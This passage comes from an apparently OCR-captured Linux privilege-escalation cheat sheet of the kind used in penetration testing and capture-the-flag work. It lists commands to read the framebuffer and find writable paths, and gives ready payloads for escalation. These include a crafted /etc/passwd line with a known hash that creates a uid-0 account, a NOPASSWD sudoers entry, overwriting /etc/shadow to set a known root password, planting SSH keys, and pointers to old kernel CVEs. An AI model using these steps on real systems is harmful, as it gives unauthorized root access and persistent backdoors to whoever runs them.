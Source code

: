 Is the user a member of the Video group and can we read the Framebuffer?  
`cat /dev/fb0 > /tmp/screen.raw`  
`cat /sys/class/graphics/fb0/virtual_size`  

## Where can we WRITE?

What are all the files can I write to?  
`find / -type f -writable -path /sys -prune -o -path /proc -prune -o -path /usr -prune -o -path /lib -prune -o -type d 2>/dev/null`  

What folder can I write to?  
`find / -regextype posix-extended -regex "/(sys|srv|proc|usr|lib|var)" -prune -o -type d -writable 2>/dev/null`  

| Writable Folder / file    | Priv Esc Command                                                                                |
|---------------------------|-------------------------------------------------------------------------------------------------|
| /home/*USER*/             | Create an ssh key and copy it to the .ssh/authorized_keys folder the ssh into the account       |
| /etc/passwd               | manually add a user with a password of "password" using the following syntax<br>user:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:1000:1000:,,,:/home/user:/bin/bash <br> You can even escalate to the root user in some cases with the following syntax: <br> admin:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:0:0:,,,:/root:/bin/bash                         |


*Root SSH Key* If Root can login via SSH, then you might be able to find a method of adding a key to the /root/.ssh/authorized_keys file.  
```
cat /etc/ssh/sshd_config | grep PermitRootLogin
```  
*Add SUDOers* If we can write arbitrary files to the host as Root, it is possible to add users to the SUDO-ers group like so (NOTE: you will need to logout and login again as myuser):  
/etc/sudoers  
```
root    ALL=(ALL:ALL) ALL
%sudo   ALL=(ALL:ALL) ALL
myuser	ALL=(ALL) NOPASSWD:ALL  
```
*Set Root Password* We can also change the root password on the host if we can write to any file as root:  
/etc/shadow  
```
printf root:>shadown
openssl passwd -1 -salt salty password >>shadow
```

## Kernel Exploits

Based on the Kernel version, do we have some reliable exploits that can be used?

UDEV - Linux Kernel < 2.6 & UDEV < 1.4.1 - CVE-2009-1185 - April 2009  

	Ubuntu 8.10  
	Ubunto 9.04  
	Gentoo  

RDS -  Linux Kernel <= 2.6.36-rc8 - CVE-2010-3904 - Linux  Exploit -

	Centos 4/5
